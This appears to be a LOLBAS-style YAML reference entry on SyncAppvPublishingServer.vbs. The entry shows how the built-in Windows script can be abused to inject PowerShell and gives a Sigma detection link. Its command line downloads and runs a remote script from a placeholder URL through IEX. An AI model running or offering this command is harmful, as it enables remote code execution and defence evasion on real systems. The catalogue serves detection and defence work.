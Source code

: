 ```yaml
---
Name: Syncappvpublishingserver.vbs
Description: Script used related to app-v and publishing server
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
    Description: Inject PowerShell script code with the provided arguments
    Usecase: Use Powershell host invoked from vbs script
    Category: Execute
    Privileges: User
    MitreID: T1216.002
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\SyncAppvPublishingServer.vbs
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_syncappvpublishingserver_vbs_execute_psh.yml
Resources:
  - Link: https://twitter.com/monoxgas/status/895045566090010624
  - Link: https://twitter.com/subTee/status/855738126882316288
Acknowledgement:
  - Person: Nick Landers
    Handle: '@monoxgas'
  - Person: Casey Smith
    Handle: '@subtee'
---
```

